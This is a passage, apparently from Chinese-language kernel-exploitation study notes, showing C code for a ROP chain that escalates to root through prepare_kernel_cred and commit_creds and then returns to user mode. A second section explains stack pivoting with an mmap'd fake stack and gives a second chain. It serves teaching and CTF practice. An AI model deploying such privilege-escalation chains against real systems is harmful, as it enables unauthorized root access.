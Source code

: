 ```c
    rop[off++] = 0;
    rop[off++] = commit_creds;
    rop[off++] = swapgs_pop_rbp_ret;
    rop[off++] = 0;
    rop[off++] = iretq;
    rop[off++] = user_rip;
    rop[off++] = user_cs;
    rop[off++] = user_rflags;
    rop[off++] = user_sp;
    rop[off++] = user_ss;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] write dev success");
}
```



##### Next

當 overflow 的空間不夠時，必須想辦法把 rsp 改到自己可以控制的地方 (stack pivoting)，如果有 `mov esp, <const>` 這種 gadget，就能透過 mmap 建造一個 memory region 來寫 ROP，並 overwrite return address 成那個 gadget，這樣就可以成功 stack pivoting。

```c
int stack_off = 0x1000 / 8;
unsigned long *stack = mmap(0x5b000000-0x2000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
stack[0] = 0xdeadbeef;
stack[stack_off++] = 0x0;
stack[stack_off++] = 0x0;
stack[stack_off++] = pop_rdi_ret;
stack[stack_off++] = 0;
stack[stack_off++] = prepare_kernel_cred;
stack[stack_off++] = pop_rdx_ret;
stack[stack_off++] = 8;
stack[stack_off++] = cmp_rdx_8_jne_pop_rbx_pop_rbp_ret;
stack[stack_off++] = 0;
stack[stack_off++] = 0;
stack[stack_off++] = mov_rdi_rax_jne_pop_rbx_pop_rbp_ret;
stack[stack_off++] = 0;
stack[stack_off++] = 0;
stack[stack_off++] = commit_creds;
stack[stack_off++] = swapgs_pop_rbp_ret;
stack[stack_off++] = 0;
stack[stack_off++] = iretq;
stack[stack_off++] = user_rip;
stack[stack_off++] = user_cs;
stack[stack_off++] = user_rflags;
stack[stack_off++] = user_sp;
stack[stack_off++] = user_ss;
```
